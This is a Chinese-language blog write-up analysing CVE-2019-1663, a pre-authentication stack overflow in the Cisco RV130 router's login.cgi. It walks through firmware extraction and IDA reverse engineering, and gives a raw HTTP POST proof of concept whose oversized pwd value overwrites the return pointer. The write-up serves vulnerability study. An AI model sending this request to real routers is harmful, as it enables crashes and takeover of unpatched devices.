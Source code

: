 ```yaml
---
title: cisco RV130简析
date: 2022-05-04 08:54:59
tags:
    - iot
---
```


<!--MORE-->

# Cisco RV130

## 固件下载

[下载地址](https://software.cisco.com/download/home/285026141/type/282465789/release/1.0.3.51?i=!pp)

## 解压固件

可以看到固件包是linux内核，ARM小端序架构，也包含squashfs文件

![image-20220504092611541](https://s2.loli.net/2022/05/04/b5B1HVU9Orl8ESP.png)

## 查找漏洞

网上POC说是在httpd文件在进行请求处理时有漏洞，可以通过grep命令查找到

![image-20220504094157800](https://s2.loli.net/2022/05/04/GvDnrHhKjcewMdy.png)

## 分析漏洞

大多数的用户输入来自于web接口，受影响的二进制文件是httpd webserver二进制文件。实际上该文件只是处理经过80或443端口的所有数据，它获取通过HTTP传输的用户输入，并转换为系统级的配置。

CVE-2019-1663漏洞背后的问题机制：

![image-20220504104208812](https://s2.loli.net/2022/05/04/se4CiZlzfQBdkpT.png)

如果太长的数据传递到login.cgi终端的pwd参数，就会出现缓冲区溢出。这一步是认证之前发生的，下面看一下正常登陆的过程：

到web接口的登陆请求会发送给login.cgi终端，格式如下：

```
POST /login.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://192.168.1.1/
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Connection: close
Upgrade-Insecure-Requests: 1
 
submit_button=login&submit_type=&gui_action=&wait_time=0&change_action=&enc=1&user=cisco&pwd=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&sel_lang=EN
```

这里向pwd发送32字节的值（AAAAAAA……），对登录界面的http处理请求在IDA中的是sub_2C614()，地址是0x0002C614

![image-20220504104819113](https://s2.loli.net/2022/05/04/SgrfP5OnkzeiALN.png)

函数将POST请求的参数进行解析，存储到.bss段

![image-20220504153950842](https://s2.loli.net/2022/05/04/tCa1OjPTguhQUN5.png)

然后，将pwd参数的值从.bss段中提取，调用strcpy将值存到动态分配的内存中

![image-20220504154105815](https://s2.loli.net/2022/05/04/Oi6M3qRyUdu5mA1.png)

在正常登陆情况下，每个值都会进行相同的检查。在strcpy将值复制到内存中后，strlen就会计算每个项目的长度，然后strcmp比较两个值。如果所有检查都通过的话，就可以成功登陆。

但是学过pwn的都知道，strcmp这个函数其实是很危险的

## 函数原型

```
#include <string.h>
char *strcpy(char * restrict s1, const char * restrict s2);
[…]
```

它只包含两个字符类型的参数，但该函数不传递长度，s2指向的字符串会复制到s1指向的数组中。而没有指定长度很容易让攻击者利用这一潜在漏洞发起攻击，可以覆写栈内保存的返回指针，然后重定向进程的执行流。

在发送下面的请求给RV130时发生的情况就和上面一样：

```
POST /login.cgi HTTP/1.1
Host: 192.168.22.158
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://192.168.22.158/
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 571
 
submit_button=login&submit_type=&gui_action=&default_login=1&wait_time=0&change_action=&enc=1&user=cisco&pwd=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZZZZ&sel_lang=EN
```

栈中保存的返回指针被“ZZZZ”覆写了，因此执行流会被重定向到0x5A5A5A5A。

研究人员建议使用strlcpy函数，strlcpy是C语言标准库函数，是更加安全版本的[strcpy](https://link.zhihu.com/?target=https%3A//baike.baidu.com/item/strcpy/5494519)函数，在已知目的地址空间大小的情况下，把从src地址开始且含有'\0'结束符的字符串复制到以dest开始的[地址空间](https://link.zhihu.com/?target=https%3A//baike.baidu.com/item/%E5%9C%B0%E5%9D%80%E7%A9%BA%E9%97%B4),并不会造成缓冲区溢出。
